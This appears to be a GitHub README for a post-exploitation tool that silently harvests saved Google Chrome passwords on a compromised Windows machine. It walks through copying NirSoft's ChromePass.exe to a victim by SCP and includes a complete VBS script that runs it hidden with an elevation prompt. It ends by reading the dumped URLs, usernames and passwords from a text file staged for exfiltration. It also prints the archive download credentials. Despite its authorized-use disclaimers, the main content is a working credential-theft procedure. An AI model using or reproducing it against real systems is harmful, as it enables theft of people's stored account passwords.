 # 🕵️‍♂️ ChromePass-Harvester

**Harvest saved Google Chrome passwords silently using ChromePass.exe (Post-Exploitation CLI Tool)**  

---

## 📖 Description

This repository contains a **VBS script** that automates the harvesting of saved Google Chrome passwords from a Windows system using [ChromePass](https://www.nirsoft.net/password_recovery_tools.html).  

It is mainly used in **post-exploitation scenarios**, where you already have access to a target system (usually via CLI), and want to **quickly extract all stored Chrome passwords**:

- Runs **ChromePass silently** without GUI.  
- Extracts **all saved passwords automatically**.  
- Saves output to a **TXT file** in a specified folder.  
- Requests **admin privileges** for proper execution.  

> ⚠ **Disclaimer:** Only use this script for **authorized penetration testing or educational labs**. Using it on unauthorized systems is illegal.  

---

## 🔑 Key Features

- 🌟 Fully CLI-based, ideal for post-exploitation environments.
- 🤫 Silent execution — no GUI pop-ups.
- 🔐 Requires admin privileges to extract all credentials.
- 📄 Saves output to a plain text file for easy exfiltration.

---

## 🛠️ Workflow (Post-Exploitation Scenario)

### 1️⃣ Gain access to the target

You already have **remote access** (e.g., via SSH, RDP, Meterpreter, etc.):

```
victim> whoami
victim> hostname
```

### 2️⃣ Transfer ChromePass CLI to the target

1. Download the **command-line version of ChromePass** from NirSoft:  
   [Download CLI tools package](https://www.nirsoft.net/password_recovery_tools.html)  

   > ⚠ Note: NirSoft removed command-line export from major tools. You need the **special CLI package**:  
   - Username: `download`  
   - Password: `nirsoft123!`  
   - Extract using password: `nirsoft123!`  

2. Transfer ChromePass.exe to the target using **SCP** (example):

```bash
attacker> scp D:\Tools\ChromePass.exe victim@192.168.1.100:C:\Temp\
```
Check on the victim machine:
```
victim> dir C:\Temp
ChromePass.exe
```

### 3️⃣ Create the VBS script on the target

Open Notepad on the victim system:
```
victim> notepad C:\Temp\run_chromepass.vbs
```
Paste the following script:
```vbs
Option Explicit

Dim fso, shellApp, exePath, outputFolder, outputFile, args

' --- Full paths ---
exePath = "C:\Path\to\passreccommandline\ChromePass.exe"
outputFolder = "C:\path\to\temp"
outputFile = outputFolder & "\ChromePasswords.txt"

Set fso = CreateObject("Scripting.FileSystemObject")

' --- Create output folder if it doesn't exist ---
If Not fso.FolderExists(outputFolder) Then
    fso.CreateFolder(outputFolder)
End If

args = "/stext """ & outputFile & """ /all /savesilent"

Set shellApp = CreateObject("Shell.Application")
shellApp.ShellExecute exePath, args, "", "runas", 1
```

Save the file as run_chromepass.vbs.

### 4️⃣ Execute the VBS script (Elevated Privileges)

Run the script from victim shell:
```
victim> cscript C:\Temp\run_chromepass.vbs
```

The script will prompt for admin privileges.

ChromePass runs silently, harvesting all saved Chrome passwords.

Output is saved as:
```
C:\path\to\ChromePasswords.txt
```
### 5️⃣ Verify harvested passwords
```
victim> type C:\Path\to\ChromePasswords.txt
```

You should see a list of saved Chrome URLs, usernames, and passwords.

---

⚠ Disclaimer

This tool is strictly for authorized use:

- Only run on systems you own or have explicit permission to test.
- Unauthorized use is illegal and may result in criminal charges.
- By using this script, you assume full responsibility for its actions.
